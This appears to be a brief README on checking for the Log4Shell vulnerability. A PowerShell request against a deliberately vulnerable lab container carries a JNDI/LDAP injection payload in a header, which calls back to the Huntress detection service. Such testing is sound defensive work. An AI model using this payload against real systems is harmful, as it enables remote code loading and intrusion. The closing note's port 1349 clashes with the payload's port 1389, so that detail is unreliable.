

## Links 
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://log4shell.huntress.com/

## Powershell testing with log4shell.huntress.com
1. Spin up the container provided by ghcr.io/christophetd/log4shell-vulnerable-app
2. Grab the identifier from https://log4shell.huntress.com
3. Run 
```Powershell
Invoke-RestMethod -Uri http://[IP-of-vulnerable-app]:[port]/ -Headers @{'X-Api-Version' = '${jndi:ldap://log4shell.huntress.com:1389/[identifier-from-log4shell.huntress.com]}'}
```

4. The container should respond with "Hello world" 


5. Go to https://log4shell.huntress.com and view connection
6. You should see the connection being made



# Note
This requires the egress of your network to allow port 1349! 


